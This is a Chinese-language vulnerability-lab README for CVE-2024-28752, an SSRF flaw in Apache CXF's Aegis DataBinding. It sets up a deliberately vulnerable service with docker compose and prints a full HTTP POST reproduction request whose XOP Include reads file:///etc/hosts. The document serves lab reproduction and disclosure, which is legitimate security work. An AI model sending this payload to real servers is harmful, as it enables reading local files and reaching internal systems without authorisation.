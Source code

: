 # Apache CXF Aegis DataBinding 服务端请求伪造漏洞 (CVE-2024-28752)

Apache CXF 是一个开源的服务框架，帮助开发者使用 JAX-WS 和 JAX-RS 等前端编程 API 构建和开发服务。

Apache CXF 在 4.0.4、3.6.3 和 3.5.8 版本之前存在一个使用 Aegis
DataBinding 的 SSRF 漏洞，该漏洞允许攻击者对接受至少一个任意类型参数的 Web 服务执行 SSRF 攻击。此漏洞专门影响使用 Aegis
DataBinding 的服务，而使用其他数据绑定 (包括默认数据绑定) 的服务不受影响。攻击者可以利用此漏洞通过让服务器向任意 URL
发送请求来访问内部资源，这可能导致信息泄露或对内部系统的进一步攻击。

参考链接：

- <https://github.com/advisories/GHSA-qmgx-j96g-4428>
- <https://nvd.nist.gov/vuln/detail/CVE-2024-28752>
- <https://github.com/ReaJason/CVE-2024-28752>

## 环境搭建

执行如下命令启动一个存在漏洞的 Apache CXF Web 服务，该服务使用 Aegis DataBinding：

```
docker compose up -d
```

服务启动后，存在漏洞的 CXF Web 服务将可以通过 `http://your-ip:8080/test?wsdl` 访问。该服务配置为使用 Aegis
DataBinding 并接受各种参数类型，使其容易受到 SSRF 攻击。

## 漏洞复现

发送如下请求即可触发 SSRF 读取 `/etc/hosts` 文件内容：

```
POST /test HTTP/1.1
Host: your-ip:8080
Content-Type: multipart/related; boundary=----kkkkkk123123213
Content-Length: 472
Connection: close

------kkkkkk123123213
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">
   <soapenv:Header/>
   <soapenv:Body>
      <web:test>
         <arg0>
<count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/hosts"></xop:Include></count>
</arg0>
      </web:test>
   </soapenv:Body>
</soapenv:Envelope>
------kkkkkk123123213--
```

![1.png](1.png)
